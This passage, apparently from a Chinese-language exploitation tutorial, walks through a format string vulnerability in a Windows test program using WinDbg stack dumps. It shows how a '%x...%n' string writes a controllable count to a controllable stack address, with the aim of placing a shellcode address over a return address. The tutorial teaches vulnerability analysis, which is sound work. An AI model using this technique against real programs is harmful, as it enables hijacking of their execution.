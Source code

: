  

注意这个目标地址是`0x18fb48`，指向的也是栈中的地址，实际上就在三个参数之后。执行完这个函数调用，栈中情况：

```
0:000> dc /c 1 esp
0018fb3c  0018fb48  H...
0018fb40  004e0e77  w.N.
0018fb44  000003ff  ....
0018fb48  74736574  test
0018fb4c  2d78252d  -%x-
0018fb50  252d7825  %x-%
0018fb54  6e252d78  x-%n
0018fb58  00000000  ....
0018fb5c  00000000  ....
0018fb60  00000000  ....
0018fb64  00000000  ....
0018fb68  00000000  ....
...

```

然后继续步进，到达下一个函数`printf`调用处，查看栈中情况：

```
0:000> dc /c 1 esp
0018fb38  0018fb48  H...
0018fb3c  0018fb48  H...
0018fb40  004e0e77  w.N.
0018fb44  000003ff  ....
0018fb48  74736574  test
0018fb4c  2d78252d  -%x-
0018fb50  252d7825  %x-%
0018fb54  6e252d78  x-%n
0018fb58  00000000  ....
0018fb5c  00000000  ....
0018fb60  00000000  ....
...

```

`printf`函数的原型是`int printf ( const char * format, ... );`，它需要的参数是由第一个参数决定的，因为我们使用的格式化字符串是`test-%x-%x-%x-%n`，因此一共需要五个参数。其中第五个参数就是已打印字符数的写入地址，也就是栈中`0018fb48`位置处的数值`74736574`。还记得这个数值是之前调用`strncpy`函数时写入的，就是格式化字符串的前四个字符。

 

所以到目前位置，我们已经发现了一个把可控内容（已打印字符数）写入可控地址（参数的前四个字节）的方法，需要做的就是把 shellcode 的地址写入返回地址的位置。

 

shellcode 的地址应该在栈中的某个位置，这里选择`0x18fb48（十进制1637192）`附近。要想控制已打印字符数，可以使用`%1111x`的格式，这样输出时统计的打印字符数是 1111 个字节。

 

返回地址可以查看调用栈：

```
0:000> kb
ChildEBP RetAddr  Args to Child             
WARNING: Stack unwind information not available. Following frames may be wrong.
0018ff48 00401232 00000002 004e0e28 004e0e90 FormatString+0x1029
0018ff88 77203677 7efde000 0018ffd4 77929d72 FormatString+0x1232
0018ff94 77929d72 7efde000 75381a13 00000000 kernel32!BaseThreadInitThunk+0xe
0018ffd4 77929d45 0040117e 7efde000 00000000 ntdll!__RtlUserThreadStart+0x70
0018ffec 00000000 0040117e 7efde000 00000000 ntdll!_RtlUserThreadStart+0x1b

```
